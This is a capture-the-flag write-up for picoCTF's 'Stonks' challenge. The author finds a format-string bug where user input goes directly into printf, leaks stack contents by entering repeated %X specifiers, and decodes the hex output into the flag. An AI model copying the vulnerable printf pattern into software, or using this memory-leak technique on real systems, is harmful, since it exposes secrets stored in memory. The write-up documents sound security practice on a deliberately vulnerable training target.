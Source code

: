 # Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c` 
`nc mercury.picoctf.net 16439`

**tags:Binary Exploitation**

## Notes
- Connect to the server `nc mercury.picoctf.net 16439`
- `cat vuln.c` parts that are interesting
```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```
```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

## Connecting to server
```nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
Entering 2 will result :
```Portfolio as of Current_time

You don't own any stonks!
Goodbye!
```

Entering 1 will result :
```Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
- Whatever value you put in will get executed ( Input is the API? )

## Looking back at the code

```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```

- From the snippet above, API token looks to be the input.
- The ONLY validation is when the token isn't entered.

```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

- Comment show that the token is only being asked ( does not get checked )
- Memory space is created with `malloc()` for the API token
- Last line prints out API token with `printf()`

## Input validation
print type specifiers for `printf()` :
Reference: 
https://cplusplus.com/reference/cstdio/printf/

Tried inputting different type specifiers: 
- `%p` for point address
Returned `0x9d7e410` - Converts into a text = `�~A`
- `%c` for character
Returned `�`
- `%x` for hexadecimal
Returned `809e3d0` - Converts into a text = `=`
- `%X` for hexadecimal uppercase
Returned `C`

- Tried inputting multiple `%X`s
Returned :
 `93CF3D0804B00080489C3F7FBBD80FFFFFFFF193CD160F7FC9110F7FBBDC7093CE180193CF3B093CF3D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFEB007DF7FF6AF8F7FC9440C3844B0010F7E58CE9F7FCA0C0F7FBB5C0F7FBB000FFEB7858F7E4968DF7FBB5C08048ECAFFEB78640F7FDDF09804B000F7FBB000F7FBBE20FFEB7898F7FE3D50F7FBC890C3844B00F7FBB000804B000FFEB78988048C8693CD160`

Converts into :

``^fî?°^`H^|?YØÿÿÿñ^fìgYÜp^fí^fî=nãðocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ^~}
÷ùJ^~÷ùJø÷öt@â÷ßlé÷ö^`À÷õ^uÀ÷õ^pÿ^~ÜH÷Þv^m÷õ^uÀ^`Hì¯ùíÅ@÷÷¿     
^`KYYâùíÈ^o`âùíÈ^o^aÕZ^i ¡ Y°ÿ^~Ü^h^`HÈhnÁ`ÿ^~Ütÿ^~Ü^h^`H¾^=Y?Àÿ^~Ý<ÿ^~Ý4``

- Looks like the flag is in it

Removed unnecessary bytes:
`6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FF9E06FF9E007D`

Converts to : 
`ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ}`
- Looks like it's using different byte order sequence.
- Tried converting endianness
    `}ÿÿ6caec7cbn3y_y_m0ll_m5t_4I_l0CTF{pico`
- Found the sequnce order ( 8-bytes are flipped )
    E.g. First 8 bytes `6F 63 69 70` to `70 69 63 6F`
- Manually relocated bytes
`7069636F4354467B495F6C3035745F346C6C5F6D795F6D306E33795F63376362366361657D00957D009EFF`

Converts to :

**Flag found: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}^~ÿ**

Total time spent : ~6 hours


Hexadecimal Converter: 
https://www.scadacore.com/tools/programming-calculators/online-hex-converer

Endianness Converter:
https://www.save-editor.com/tools/wse_hex.html
